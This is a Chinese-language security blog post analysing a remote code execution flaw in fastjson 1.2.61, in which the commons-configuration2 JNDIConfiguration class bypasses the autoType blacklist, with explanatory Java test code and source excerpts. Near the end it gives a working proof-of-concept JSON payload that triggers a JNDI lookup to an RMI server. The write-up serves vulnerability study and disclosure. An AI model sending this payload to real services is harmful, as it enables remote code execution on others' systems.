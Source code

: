 ```yaml
---
layout: post
title:  fastjson 1.2.61远程代码执行漏洞分析&复现
date:   2019-9-24 10:22:07 +0800
categories: Web安全
tag: 漏洞预警
---
```


* content
{:toc}

{%raw%}  

## 0x00 前言  

9月19日fastjson官方发布了1.2.61新版本，增加了autoType安全黑名单。但是新版本刚发布不到一周时间，又有大佬bypass其黑名单，成功绕过了安全防护，可以利用fastjson反序列化特性造成RCE。从漏洞公布的poc可知这次gadget是commons-configuration组件，该组件是java应用程序的配置管理类，用于协助管理各种格式的配置文件。  

## 0x01 影响版本  

fastjson：  `version <= 1.2.61`，目前官方还没发布补丁，通杀所有版本。  

## 0x02 漏洞分析  

造成漏洞的根因是fastjson反序列化JSON字符串时，会自动调用构造方法和get/setXXX方法，下面看一段fastjson反序列化JSON串的测试代码，先定义User类：  

```java
package com.blacklist.test;

public class User {

    User(){
        System.out.println("构造方法被自动调用！");
    }

    private int age;
    private String name;
    private String address;

    public String getAddress() {
        System.out.println("getAddress方法被自动调用！");
        return address;
    }
    public void setAddress(String address) {
        System.out.println("setAddress方法被自动调用！");
        this.address = address;
    }
    public int getAge() {
        System.out.println("getAge方法被自动调用！");
        return age;
    }
    public void setAge(int age) {
        System.out.println("setAge方法被自动调用！");
        this.age = age;
    }
    public String getName() {
        System.out.println("getName方法被自动调用！");
        return name;
    }
    public void setName(String name) {
        System.out.println("setName方法被自动调用！");
        this.name = name;
    }
    //一个拥有返回值的get方法
    public String getTest(){
        System.out.println("getTest方法被自动调用！");
        return null;
    }
}

```

使用fastjson反序列化一段JSON字符串成User对象：  

```java
package com.blacklist.test;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class ExploitMain {

    public static void main(String[] args) {
        //使用@type指定该JSON字符串应该还原成何种类型的对象
        String userInfo = "{\"@type\":\"com.blacklist.test.User\",\"name\":\"curz0n\", \"age\":18}";
        //开启setAutoTypeSupport支持autoType
        ParserConfig.global.setAutoTypeSupport(true);
        //反序列化成User对象
        JSONObject user = JSON.parseObject(userInfo);
    }
}
```

执行代码，输出结果如下：  

```
构造方法被自动调用！
setName方法被自动调用！
setAge方法被自动调用！
getAddress方法被自动调用！
getAge方法被自动调用！
getName方法被自动调用！
getTest方法被自动调用！
```

可以看见fastjson反序列化字符串时会依次自动调用对象的构造方法，setXXX方法，getXXX方法。注意，被反序列化的字符串中没有address和getTest方法的相关的要素，但是fastjson依然自动调用了get方法。如果这些get/setXXX方法里面存在JNDI Reference注入漏洞（*这部分知识详情可参考笔者发布的上一篇文章[《CVE-2019-14540远程代码执行漏洞分析&复现》](https://curz0n.github.io/2019/09/20/cve-2019-14540/)*），那就可以借助fastjson的特性执行我们指定的任意代码，造成RCE。  
从公布的poc可知这次利用的gadget是[commons-configuration](https://github.com/apache/commons-configuration/blob/master/src/main/java/org/apache/commons/configuration2/JNDIConfiguration.java)组件的`org.apache.commons.configuration2.JNDIConfiguration.setPrefix(final String prefix)`方法，源码如下：  

```java
    public void setPrefix(final String prefix)
    {
        this.prefix = prefix;

        // clear the previous baseContext
        baseContext = null;
    }
```

setPrefix方法就是初始化成员变量，并使baseContext等于null，逻辑很简单，看不出任何问题。那我们就先看一下JNDIConfiguration的构造方法，无参构造方法调用带1个参数的构造方法，然后new一个InitialContext对象，调用带有2个参数的构造方法，代码如下所示：  

```java
    public JNDIConfiguration(final String prefix) throws NamingException
    {
        this(new InitialContext(), prefix);
    }
```

带两个参数的构造方法详情如下，把InitialContext对象赋值给成员变量context：  

```java
    public JNDIConfiguration(final Context context, final String prefix)
    {
        this.context = context; //new InitialContext()
        this.prefix = prefix;
        initLogger(new ConfigurationLogger(JNDIConfiguration.class));
        addErrorLogListener();
    }
```

接着分析代码，看哪里调用了context变量，最后定位到getBaseContext方法，代码详情如下：  

```java
    public Context getBaseContext() throws NamingException
    {
        if (baseContext == null)
        {
            baseContext = (Context) getContext().lookup(prefix == null ? "" : prefix);
        }

        return baseContext;
    }
```

因为在setPrefix方法中设置了baseContext等于null，所以会进入if判断，接着getContext方法返回InitialContext对象，并调用lookup方法，其传入的参数变量正好是setPrefix方法设置的参数变量，可以被用户控制，这是典型的JNDI Reference注入漏洞的代码特征。因为fastjson特性，会自动调用具有返回值的getXXX方法，所以可以断定getBaseContext方法可以造成远程代码执行漏洞。  

## 0x03 漏洞复现  

### 环境准备  

Eclipse工程结构如下：  

```
Configuration2_Gadget
│  .classpath
│  .project
│
├─.settings
│      org.eclipse.jdt.core.prefs
│
├─bin
│  └─com
│      └─fastjson1261
│              ExploitMain.class
│
├─libs
│      commons-configuration2-2.6.jar  //https://www-eu.apache.org/dist//commons/configuration/binaries/commons-configuration2-2.6-bin.zip
│      commons-lang3-3.9.jar  //https://www-eu.apache.org/dist//commons/lang/binaries/commons-lang3-3.9-bin.zip
│      commons-logging-1.2.jar  //https://www-us.apache.org/dist//commons/logging/binaries/commons-logging-1.2-bin.zip
│      commons-text-1.8.jar  //https://www-eu.apache.org/dist//commons/text/binaries/commons-text-1.8-bin.zip
│      fastjson-1.2.61.jar  //http://repo1.maven.org/maven2/com/alibaba/fastjson/
│
└─src
    └─com
        └─fastjson1261
                ExploitMain.java
```

### POC  

根据前面的漏洞分析，构造基于rmi协议的poc如下：  

```java
String poc = "{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"rmi://127.0.0.1:1099/Exploit-SERVER\"}";
```

启动RMI服务器，执行poc，熟悉的计算器应用被打开：  

![](/assets/images/2019-09-24-fastjson_1_2_61_blacklist_bypass/1.png)  


## 0x04 结语  

开源项目[fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)工程记录了fastjson黑名单的明文信息，可以看见在fastjson 1.2.61版本中过滤了 version 1.x老版本的org.apache.commons.configuration.JNDIConfiguration，而这次利用的gadget是Apache Commons Configuration version 2.x新版本，其包名变成了org.apache.commons.configuration2，从而绕过了黑名单防护。  

**References:**  

[FastJson 1.2.61远程代码执行漏洞(From第三方jar包)](https://mp.weixin.qq.com/s?__biz=MzU3NzMxNDgwMA==&mid=2247483807&idx=1&sn=4e9a229fb32721b353c896e1a9fab1eb&chksm=fd07cb00ca704216e9f9f99f6f615014581eb3f9a8423e8213c4840e498241cf169ffe187343&mpshare=1&scene=23&srcid=&sharer_sharetime=1569291237460&sharer_shareid=b9dede03cd3f2e7d4dbf72830bcff7c6#rd)  

**版权声明：转载请注明出处，谢谢。[https://github.com/curz0n](https://github.com/curz0n)**  

{%endraw%}  














